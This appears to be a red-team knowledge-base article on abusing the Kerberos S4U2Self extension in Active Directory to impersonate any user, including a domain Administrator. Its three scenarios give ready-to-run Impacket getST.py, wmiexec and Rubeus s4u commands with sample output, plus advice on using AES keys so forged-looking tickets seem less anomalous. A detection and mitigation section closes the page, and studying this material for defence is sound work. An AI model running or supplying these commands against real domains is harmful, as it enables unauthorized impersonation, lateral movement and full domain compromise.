

## What Is S4U2Self Abuse?

**S4U2Self** (Service-for-User-to-Self) is a Kerberos extension defined in **MS-SFU** (Microsoft's [Service for User specification](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)) that lets a service request a [service ticket](/docs/kerberos/tickets/) for any domain user *to itself* — without needing that user's password, TGT, or any involvement from them at all. Microsoft designed it for services that receive non-Kerberos authentication (NTLM, or a web login form) and then need a proper Kerberos ticket to pass further into the backend. Instead of asking the user to re-authenticate with Kerberos, the service reaches out to the KDC and says: "Issue me a ticket for this user, addressed to me."

The abuse: an attacker who controls a service account (or machine account) with a registered SPN can send that same request and ask the KDC to issue a ticket impersonating `Administrator` — or any domain user — addressed to the attacker's service. No credentials required. No interaction with the target account. Just the attacker's account, its hash, and the KDC.

Whether the resulting ticket is **forwardable** (usable beyond the attacker's own service) or **non-forwardable** (limited to local access) depends on a single flag in Active Directory. Both cases are abusable — just differently.

This note covers three abuse scenarios plus one important comparison:

1. **Scenario A — Protocol Transition** (full delegation chain): `TRUSTED_TO_AUTH_FOR_DELEGATION` set → forwardable ticket → full S4U2Proxy chain. Brief summary here; the full walkthrough lives in `constrained-delegation.md`.
2. **Scenario B — Non-forwardable ticket** (local access + [RBCD](/docs/kerberos/delegation/rbcd/) bridge): no special delegation flag, but the ticket still grants access to the service itself, and RBCD can promote it further.
3. **Scenario C — Machine account as SYSTEM** (local privilege escalation to lateral movement): SYSTEM on a domain-joined host *is* the machine account — which has SPNs by default and can perform S4U2Self for a domain admin.

**S4U2Self vs [Silver Ticket](/docs/kerberos/ticket-attacks/silver-ticket/):** when you have the service account hash you could forge a Silver Ticket instead — but a Silver Ticket fails PAC validation. S4U2Self produces a real KDC-issued ticket. The tradeoff is covered in the Operational Notes.

## How Does S4U2Self Abuse Work?

The attacker's service account sends a **TGS-REQ** (Ticket-Granting Service Request — the Kerberos message used to request service tickets) to the KDC. Inside that request is a special field called **PA-FOR-USER** (a PA-DATA — Pre-Authentication Data — extension defined in MS-SFU that names the target user to impersonate). The KDC receives this, looks up the named user in Active Directory, builds a service ticket addressed to the requesting service, and embeds the target user's identity and PAC inside it.

The KDC then checks one thing before deciding whether to set the **forwardable flag** on the ticket: does the requesting service account have `TRUSTED_TO_AUTH_FOR_DELEGATION` (userAccountControl bit `0x1000000`) set? If yes — the ticket is forwardable and can be handed off to **S4U2Proxy** (Service-for-User-to-Proxy — the companion MS-SFU extension that uses a forwardable S4U2Self ticket to obtain a service ticket to a *different* backend service) to reach a backend service. If no — the ticket is non-forwardable, but it still authenticates the impersonated user to the requesting service itself.



## What Does S4U2Self Abuse Require?

- **A service account or machine account with a registered SPN** — S4U2Self requires the requesting account to have at least one SPN (Service Principal Name — a unique identifier registered in AD that maps a service to an account, e.g. `MSSQLSvc/sqlserver.radiant.local`). Machine accounts have SPNs by default (`HOST/`, `TERMSRV/`, etc.). Service accounts get SPNs when a service is installed or when an admin runs `setspn`.
- **The account's credentials** — NTLM hash or plaintext password, or an active session running as that account.
- **Network access to the DC** — the S4U2Self request goes to the KDC directly.
- **For Scenario A (forwardable ticket):** `TRUSTED_TO_AUTH_FOR_DELEGATION` set on the account *and* `msDS-AllowedToDelegateTo` populated with allowed SPNs.
- **For Scenario C (machine account):** SYSTEM-level access on a domain-joined machine.

## When Does S4U2Self Produce a Forwardable Ticket?

S4U2Self only returns a forwardable ticket when the requesting account has `TRUSTED_TO_AUTH_FOR_DELEGATION` set. Without that flag the KDC still issues a ticket, but a non-forwardable one that cannot be passed on through S4U2Proxy. The table below maps each account configuration to what the resulting ticket can actually be used for.

| Account condition | Ticket forwardable? | Can use S4U2Proxy? | Usable for? |
|---|---|---|---|
| `TRUSTED_TO_AUTH_FOR_DELEGATION` set + `msDS-AllowedToDelegateTo` populated | Yes | Yes | Full impersonation to delegated backend SPNs |
| `TRUSTED_TO_AUTH_FOR_DELEGATION` set, no `msDS-AllowedToDelegateTo` | Yes | No (nowhere to delegate to) | Local service access only |
| Neither flag set — standard service account with SPN | No | No | Local service access; RBCD bridge possible |
| No SPN at all | S4U2Self rejected by KDC | — | Attack fails at first step |
| Machine account (has SPNs, no delegation flags) | No | No | Local service access; RBCD bridge possible |

The non-forwardable ticket is not useless. It authenticates the impersonated user to the requesting service. Combined with RBCD (Resource-Based [Constrained Delegation](/docs/kerberos/delegation/constrained-delegation/) — a delegation model where the *target* resource, not a central admin, controls who can delegate to it), a non-forwardable ticket can be used to configure and then exploit RBCD on a target you control, escalating to full access.

## Scenario A: Protocol Transition Abuse (Forwardable Ticket)

**Protocol Transition** is the Microsoft term for using S4U2Self to switch a user's non-Kerberos authentication (e.g., NTLM or forms-based login) into a Kerberos ticket — "transitioning" between authentication protocols. It requires `TRUSTED_TO_AUTH_FOR_DELEGATION` on the service account, which is what makes the resulting ticket forwardable and usable with S4U2Proxy.

This is the "complete" S4U2Self attack path. The compromised account has `TRUSTED_TO_AUTH_FOR_DELEGATION` and an allowed delegation target in `msDS-AllowedToDelegateTo`. S4U2Self gets the forwardable ticket; S4U2Proxy uses it to reach the backend.

Full walkthrough is in `constrained-delegation.md`. Commands are shown here for reference.


  
`getST.py` handles both S4U2Self and S4U2Proxy in a single invocation unless you stop it with `-self`. The `\` at the end of each line is bash's line continuation character — the whole block runs as one command.

```bash
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -impersonate Administrator \
  radiant.local/svc_sql:'Service123!' \
  -dc-ip 192.168.56.10
```

The flags:
- `-spn` — the target SPN (Service Principal Name) to request a ticket for via S4U2Proxy; must be in `svc_sql`'s `msDS-AllowedToDelegateTo`
- `-impersonate` — the user to impersonate throughout the S4U2Self + S4U2Proxy chain
- `radiant.local/svc_sql:'Service123!'` — the service account and its plaintext password; use `-hashes :NThash` in place of the password to authenticate with an NT hash instead (format: colon prefix, empty LM field)
- `-dc-ip` — IP of the domain controller to send the KDC requests to

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

```bash
export KRB5CCNAME=/tmp/Administrator.ccache
wmiexec.py -k -no-pass radiant.local/Administrator@sqlserver.radiant.local
```

The flags:
- `export KRB5CCNAME=` — sets the environment variable Kerberos libraries use to find the credential cache file; all Impacket tools read this automatically
- `-k` — use Kerberos authentication (reads from `KRB5CCNAME` cache file)
- `-no-pass` — do not prompt for a password; authentication is handled by the Kerberos ticket
  
  
Rubeus chains S4U2Self and S4U2Proxy in one `s4u` action. The backtick `` ` `` at the end of each line is PowerShell's line continuation character:

```powershell
.\Rubeus.exe s4u `
  /user:svc_sql `
  /rc4:<NT hash of svc_sql> `
  /impersonateuser:Administrator `
  /msdsspn:MSSQLSvc/sqlserver.radiant.local `
  /domain:radiant.local `
  /dc:dc01.radiant.local `
  /ptt
```

The flags:
- `/user` — the service account performing S4U2Self
- `/rc4` — the NT hash of `svc_sql`; use `/aes256` to supply an AES256 key instead (preferred — RC4 on an AES-capable domain is anomalous)
- `/impersonateuser` — the privileged user to impersonate throughout both S4U2Self and S4U2Proxy
- `/msdsspn` — the backend SPN to request via S4U2Proxy; must appear in `svc_sql`'s `msDS-AllowedToDelegateTo` list
- `/domain` — the fully qualified domain name
- `/dc` — the domain controller to contact for the TGT and delegation requests
- `/ptt` — inject the final S4U2Proxy ticket directly into the current logon session

```
[*] Action: S4U
[*] Requesting a TGT for svc_sql
[+] TGT request successful!
[*] Performing S4U2self...
[+] S4U2self success!
[*] Performing S4U2Proxy...
[+] S4U2Proxy success!
[*] Ticket successfully imported!
```
  


## Scenario B: Non-Forwardable Ticket (Local Access + RBCD Bridge)

The more common case. The attacker controls a service account with an SPN but without `TRUSTED_TO_AUTH_FOR_DELEGATION`. The KDC still issues the S4U2Self ticket — it just won't carry the forwardable flag.

**What the non-forwardable ticket does:**
- Authenticates the impersonated user to the requesting service itself (direct local access)
- Can be used as the "evidence of prior authentication" step in RBCD — configure RBCD on a target you control to allow your account, then use S4U2Self to bridge into it

**RBCD bridge flow:**
1. Attacker controls `svc_sql` (has SPN, no delegation flags)
2. Attacker has write access to some computer account — or can create one (default domain users can create up to 10 machine accounts via `ms-DS-MachineAccountQuota`)
3. Set RBCD on the target: write `svc_sql`'s SID into the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute
4. S4U2Self to get a non-forwardable ticket for Administrator addressed to `svc_sql` (non-forwardable is fine here — RBCD evaluates whether the *requesting account* is trusted by the target resource, not whether the incoming ticket is forwardable; since you just wrote `svc_sql` into the target's RBCD attribute, the KDC allows the delegation)
5. S4U2Proxy via RBCD → service ticket for Administrator to the target

The RBCD full path is covered in `rbcd.md`. Below are the S4U2Self-only commands.


  
Use `-self` to stop after S4U2Self and not proceed to S4U2Proxy:

```bash
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -impersonate Administrator \
  -self \
  radiant.local/svc_sql:'Service123!' \
  -dc-ip 192.168.56.10
```

The flags:
- `-self` — only perform S4U2Self; stop before attempting S4U2Proxy
- `-spn` — the SPN to address the ticket to; since we're stopping at S4U2Self, this addresses the ticket to `svc_sql`'s own SPN
- `-impersonate` — the user whose identity to impersonate in the resulting ticket

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*] Saving ticket in Administrator.ccache
```

The resulting `.ccache` (credential cache — the Linux/Unix file format for storing Kerberos tickets) ticket is non-forwardable. You can use it to authenticate to `svc_sql`'s own service as Administrator, or feed it into an RBCD chain.

```bash
export KRB5CCNAME=/tmp/Administrator.ccache
klist
```

```
Ticket cache: FILE:/tmp/Administrator.ccache
Default principal: Administrator@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/12/2026 10:00:00  03/12/2026 20:00:00  MSSQLSvc/sqlserver.radiant.local@RADIANT.LOCAL
	renew until 03/19/2026 10:00:00, Flags: RIA
        Etype: aes256-cts-hmac-sha1-96
```

No `F` in the flags string — this ticket is non-forwardable. `R` (renewable), `I` (initial), `A` (pre-authenticated) are present, but `F` is absent. Attempting S4U2Proxy with this ticket will fail.
  
  
The `/self` flag stops Rubeus after S4U2Self:

```powershell
.\Rubeus.exe s4u `
  /user:svc_sql `
  /rc4:<NT hash of svc_sql> `
  /impersonateuser:Administrator `
  /msdsspn:MSSQLSvc/sqlserver.radiant.local `
  /domain:radiant.local `
  /dc:dc01.radiant.local `
  /self `
  /ptt
```

The flags:
- `/self` — only perform S4U2Self; do not proceed to S4U2Proxy even if `msDS-AllowedToDelegateTo` is configured on the account
- `/user` — the service account performing S4U2Self
- `/rc4` — the NT hash of `svc_sql`; use `/aes256` to supply an AES256 key instead (preferred — RC4 on an AES-capable domain is anomalous)
- `/impersonateuser` — the privileged user to impersonate in the ticket
- `/msdsspn` — the SPN to address the ticket to; with `/self` this is the ticket's service target, not a delegation destination
- `/domain` — the domain name
- `/dc` — the domain controller to contact for the TGT request and S4U2Self
- `/ptt` — inject the resulting ticket directly into the current logon session

``` {linenos=table}
[*] Action: S4U

[*] Requesting a TGT for svc_sql
[+] TGT request successful!

[*] Performing S4U2self...
[+] S4U2self success!

[*] base64(ticket.kirbi):
      doIFpDCCBaCgAwIBBaEDAgEB...

[+] Ticket successfully imported!
```

Note in the output: the ticket flags will *not* include `forwardable`. The injection still succeeds — this ticket is usable for direct access to `svc_sql`'s own SPN as Administrator.
  


## Scenario C: Machine Account as SYSTEM

Every domain-joined Windows machine runs its SYSTEM account as the **machine account** (the computer object in AD — e.g., `WS01$`). Machine accounts receive SPNs automatically at domain join time (`HOST/WS01`, `HOST/WS01.radiant.local`, `TERMSRV/WS01`, etc.). That means any process running as SYSTEM already *is* a service account with SPNs — and can perform S4U2Self.

An attacker who achieves SYSTEM access on a domain-joined workstation (via local exploit, unpatched vulnerability, misconfigured service, etc.) can immediately request a service ticket impersonating any domain user — including a Domain Admin — without any additional credentials. The machine account hash never needs to leave the machine; Rubeus reads it from the local [LSASS](/docs/redteam/credential-dumping/) process.

This turns a "mere" local privilege escalation into a potential domain-level lateral movement primitive.

**Conditions:**
- SYSTEM access on a domain-joined machine
- The machine account (`WS01$`) has not been restricted from performing S4U2Self (default: unrestricted)
- Network access to the DC

```powershell {linenos=table}
# Running as SYSTEM — Rubeus reads the machine account TGT from LSASS directly
# /self — only S4U2Self, not S4U2Proxy
# /impersonateuser — the domain admin to impersonate
# /msdsspn — SPN to request the ticket for (can be any SPN on a target you want to reach)
# /ptt — inject the ticket into the current session
.\Rubeus.exe s4u `
  /self `
  /impersonateuser:Administrator `
  /msdsspn:cifs/fileserver.radiant.local `
  /altservice:host `
  /dc:dc01.radiant.local `
  /ptt
```

The flags:
- `/self` — only perform S4U2Self; stop before S4U2Proxy
- `/impersonateuser` — the domain user to impersonate in the ticket
- `/msdsspn` — the SPN to address the ticket to; here `cifs/fileserver.radiant.local` requests a CIFS (Common Internet File System — the protocol underlying SMB file shares) ticket to the file server
- `/altservice` — rewrites the service class component of the SPN in the resulting ticket (e.g., `host` grants access that covers both CIFS and PowerShell remoting); this works because the ticket is encrypted with the service account's key, which Rubeus already has — it can decrypt, modify, and re-encrypt the ticket locally before injection
- `/dc` — DC to contact for the request
- `/ptt` — inject directly into the current logon session; no kirbi file needed

```
[*] Action: S4U

[*] Using existing TGT for machine account WS01$
[*] Performing S4U2self...
[+] S4U2self success!

[*] Renaming the ticket service...
[+] Ticket successfully imported!
```

Once injected, verify and use:

```powershell
klist

# C$ is the hidden Windows administrative share exposing the entire C: drive —
# automatically created on every Windows machine, accessible only to administrators
dir \\fileserver.radiant.local\C$

# Enter-PSSession opens an interactive PowerShell shell on a remote machine,
# equivalent to SSH — uses the injected Kerberos ticket for authentication
Enter-PSSession -ComputerName fileserver.radiant.local
```

```
Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>     Client: Administrator @ RADIANT.LOCAL
        Server: host/fileserver.radiant.local @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent
        Start Time: 3/12/2026 10:15:00 (local)
        End Time:   3/12/2026 20:15:00 (local)
```

> **Why does this ticket show forwardable?** Machine accounts *can* have `TRUSTED_TO_AUTH_FOR_DELEGATION` set in some configurations, but even without it, Rubeus `s4u /self` from a machine account context often produces a forwardable ticket because Windows internally grants machine accounts elevated S4U flexibility. If the domain has `Kerberos Armoring` (FAST — Flexible Authentication Secure Tunneling) enforced, this behavior may be restricted.

## Verifying Ticket Flags

After any S4U2Self operation, confirm whether the resulting ticket is forwardable before proceeding. A non-forwardable ticket passed to S4U2Proxy will be rejected by the KDC.


  
```bash
export KRB5CCNAME=/tmp/Administrator.ccache
klist
```

```
Ticket cache: FILE:/tmp/Administrator.ccache
Default principal: Administrator@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/12/2026 10:00:00  03/12/2026 20:00:00  MSSQLSvc/sqlserver.radiant.local@RADIANT.LOCAL
	renew until 03/19/2026 10:00:00, Flags: FRIA
        Etype: aes256-cts-hmac-sha1-96
```

MIT Kerberos `klist` shows ticket flags on the line beginning with `Flags:`. Characters to look for:
- `F` — **forwardable**: this ticket can be passed to S4U2Proxy; safe to proceed with the delegation chain
- `f` (lowercase) — **forwarded**: the ticket has already been forwarded (distinct from forwardable)
- `R` — **renewable**: the ticket can be renewed before it expires
- `I` — **initial**: issued directly via an AS-REQ exchange, not derived from a TGT
- `A` — **pre-authenticated**: the request included pre-authentication (normal for modern Kerberos)
- absence of `F` — **non-forwardable**: do not attempt S4U2Proxy; ticket is only usable for direct service access

A forwardable ticket shows `F` in the flags string. A non-forwardable ticket will not. The difference matters operationally — attempting S4U2Proxy with a non-forwardable ticket produces a `KDC_ERR_BADOPTION` error at the DC.
  
  
**Option 1 — klist:**

```powershell
klist
```

```
#0>     Client: Administrator @ RADIANT.LOCAL
        Server: MSSQLSvc/sqlserver.radiant.local @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent
        Start Time: 3/12/2026 10:00:00 (local)
        End Time:   3/12/2026 20:00:00 (local)
```

Look at the `Ticket Flags` line. If the word `forwardable` appears in the decoded flags, you're good. If it reads something like `renewable pre_authent` without `forwardable`, the ticket cannot be used with S4U2Proxy.

**Option 2 — Rubeus describe (more detail):**

```powershell
# If you have the ticket as base64 or a .kirbi file:
.\Rubeus.exe describe /ticket:C:\Temp\Administrator.kirbi
```

``` {linenos=table}
[*] Action: Describe Ticket

  ServiceName              :  MSSQLSvc/sqlserver.radiant.local
  ServiceRealm             :  RADIANT.LOCAL
  UserName                 :  Administrator
  UserRealm                :  RADIANT.LOCAL
  StartTime                :  3/12/2026 10:00:00 AM
  EndTime                  :  3/12/2026 8:00:00 PM
  RenewTill                :  3/19/2026 10:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  cT3...
```

The `Flags` line is definitive. The word `forwardable` in that list means the ticket can proceed to S4U2Proxy. If it reads `name_canonicalize, pre_authent, renewable` without `forwardable`, the ticket is non-forwardable.

> **Common confusion:** The Rubeus `s4u` action output says "forwardable ticket for `svc_sql`" in its status lines. The account named here is `svc_sql` — the account *performing* S4U2Self — not the impersonation target (Administrator). The phrase refers to the TGT that `svc_sql` presents to the KDC to authorize the S4U2Self request, not the resulting impersonation ticket.
  


## Operational Notes

**S4U2Self vs Silver Ticket — when to use which.**
If you have the service account's hash, you can forge a Silver Ticket (a fake service ticket signed with the service account's key) for any user without needing KDC contact at all. But Silver Tickets are entirely local forgeries — if the target service is configured with `ValidateKdcPacSignature` (PAC verification — the service calls the KDC via NETLOGON to confirm the PAC is genuinely KDC-signed), a Silver Ticket is rejected. S4U2Self produces a real KDC-issued ticket with a genuine PAC signature. Use S4U2Self when you need a ticket that survives PAC validation.

**The forwardable flag is not the whole story.**
A non-forwardable S4U2Self ticket is still a valid, KDC-issued service ticket. It authenticates the impersonated user to the requesting service. "Non-forwardable" only means it cannot be handed to the KDC inside an S4U2Proxy request to reach a *different* service. If your goal is to access the service account's own service as a domain admin, non-forwardable is sufficient.

**AES vs RC4.**
Both tools default to RC4 when you supply an NT hash. On modern domains, this produces a ticket with `etype: rc4_hmac` — anomalous if the domain is AES-only. Supply the AES256 key to Rubeus (`/aes256`) or use `-aesKey` with `getST.py` for cleaner tickets.

**Ticket lifetime is standard.**
S4U2Self tickets are KDC-issued with normal lifetimes (default 10 hours). They are not extended or renewable past the standard policy. Re-run the attack to refresh.

**`WS01$` vs `WS01$@RADIANT.LOCAL`.**
Machine account names in Active Directory use the `$` suffix (e.g., `WS01$`). The UPN (User Principal Name) form used in some Kerberos contexts is `WS01$@RADIANT.LOCAL`. Both refer to the same object. Impacket accepts the `$` suffix directly.

**Domain users without SPNs cannot perform S4U2Self.**
The KDC checks that the requesting account has a registered SPN before processing the PA-FOR-USER field. A regular user account with no SPN will receive `KDC_ERR_PADATA_TYPE_NOSUPP`. You need either a service account with SPNs, a machine account, or a user account to which you've added an SPN (requires write access to the `servicePrincipalName` attribute in AD, or `Validated write to service principal name` permission).

**Protected Users group blocks impersonation.**
Accounts in the **Protected Users** security group have Kerberos hardening applied — among other protections, they cannot be the target of constrained delegation or S4U2Self impersonation. Attempting to impersonate a Protected Users member via S4U2Self will receive a rejection from the KDC. This is one of the few reliable controls against this attack path.

## How Do You Detect and Defend Against S4U2Self Abuse?

### What Logs Does S4U2Self Abuse Generate?

- **Event ID 4769** at the DC — generated for every TGS request, including S4U2Self. The key field is `Service Name`: it will be the *requesting service account* (e.g., `svc_sql`), but the `Account Name` field in the request body will contain the impersonated user (`Administrator`). Correlation tooling that joins these fields can flag the anomaly: `svc_sql` requesting a ticket "for" `Administrator`.
- **Event ID 4769 with Transited-Services populated** — S4U2Proxy requests (following a forwardable S4U2Self) produce a 4769 where the `Transited-Services` field names the intermediate service account. This field is empty in normal TGS requests and is diagnostic for delegation chains.
- **Event ID 4624 at target services** — logon event for the impersonated user, sourced from the service account's machine rather than the user's normal workstation. If `Administrator` never logs on interactively to the SQL server but 4624 fires from `WS01`, that's a signal.

### What Logs Does S4U2Self Abuse Not Generate?

- **The S4U2Self request itself has no dedicated Event ID.** Event 4769 fires, but it fires for all TGS requests. Without explicitly correlating `Account Name` against the SPN in a single rule, S4U2Self traffic blends into normal Kerberos noise.
- **Machine account S4U2Self from SYSTEM** — SYSTEM-level access on a workstation is already a compromise indicator, but the S4U2Self step itself produces only normal 4769 events at the DC. No local log fires on the compromised workstation for the Kerberos request.
- **Hash acquisition step** — if the attacker already had the service account password or hash (via [Kerberoast](/docs/kerberos/kerberoast/), credential dumping, etc.), there is no log that directly connects hash acquisition to subsequent S4U2Self abuse.

### How Do You Mitigate S4U2Self Abuse?

- **Add privileged accounts to the Protected Users group.** Domain Admins, `Administrator`, service accounts with elevated access — membership in Protected Users blocks S4U2Self impersonation attempts targeting those accounts. This is the highest-value single control.
- **Audit `TRUSTED_TO_AUTH_FOR_DELEGATION` on service accounts.** Review all accounts with this flag set using PowerShell — these commands require RSAT (Remote Server Administration Tools) and will fail on machines that don't have AD modules installed:
  ```powershell
  Get-ADUser -Filter {TrustedToAuthForDelegation -eq $true} -Properties TrustedToAuthForDelegation
  Get-ADComputer -Filter {TrustedToAuthForDelegation -eq $true} -Properties TrustedToAuthForDelegation
  ```
  Each result is an account that can produce forwardable S4U2Self tickets. Every one should have a documented business justification. Remove the flag from any that don't.
- **Limit SPN registration.** The `ms-DS-MachineAccountQuota` default allows every domain user to create up to 10 computer accounts (and thus register SPNs). Setting this to 0 via `Set-ADDomain -Identity radiant.local -Replace @{"ms-DS-MachineAccountQuota"="0"}` forces computer account creation to require elevated privileges. This removes a common S4U2Self bootstrapping path.
- **Managed Service Accounts and Group Managed Service Accounts (gMSA).** Service accounts managed as gMSA have passwords automatically rotated and cannot be used interactively — an attacker who compromises a gMSA's hash faces a 30-day or shorter rotation window. They also support fine-grained SPN and delegation control.
- **Enforce AES-only Kerberos** via Group Policy (`Computer Configuration → Windows Settings → Security Settings → Account Policies → Kerberos Policy → Configure encryption types`). This makes RC4-encrypted S4U2Self tickets anomalous and detectable.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — MDI has specific detections for unusual delegation activity. S4U2Self from a non-service account impersonating privileged users will trigger MDI's "Suspected overpass-the-hash attack" or delegation abuse alerts. Machine accounts performing S4U2Self for domain admins are also flagged in MDI's lateral movement path analysis.
- **Microsoft Sentinel** — Write a KQL rule on `SecurityEvent` for Event ID 4769 where:
  - `ServiceName` is a service account (ends in `$` for machine accounts, or matches a known service account pattern)
  - The impersonated `TargetUserName` is a member of Domain Admins or is `Administrator`
  - `TransitedServices` field is populated (indicates S4U2Proxy chaining)
- **Splunk** — Search `EventCode=4769` where `Service_Name` matches your service account naming convention and `Account_Name` resolves to a privileged group member. Alert on frequency: repeated S4U2Self for the same privileged user from the same service account is a strong indicator of scripted abuse.
- **CrowdStrike / [EDR](/docs/redteam/defender-bypass/)** — Behavioral detection on `Rubeus.exe s4u` invocations and `getST.py` execution with `-impersonate` flags. Process lineage from `services.exe` or unexpected parents spawning Rubeus is high-signal.
- **Zeek (network-level)** — Zeek's Kerberos analyzer parses TGS-REQ frames. PA-FOR-USER pre-authentication data in a TGS-REQ from a non-privileged source is not normal in legitimate traffic and can be correlated across frames to build delegation chain graphs.

## References

### Specifications
- [MS-SFU — Kerberos Protocol Extensions: Service for User and Constrained Delegation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)

### Original Research
- harmj0y — "S4U2Pwnage" — foundational post on abusing S4U2Self and S4U2Proxy across multiple delegation scenarios; introduced the concept of using non-forwardable S4U2Self tickets for lateral movement when combined with RBCD

### Tools
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit (`s4u` action with `/self`, `/ptt`, `/altservice`, `/aes256`)
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts (`getST.py` with `-impersonate`, `-self`, `-aesKey`)
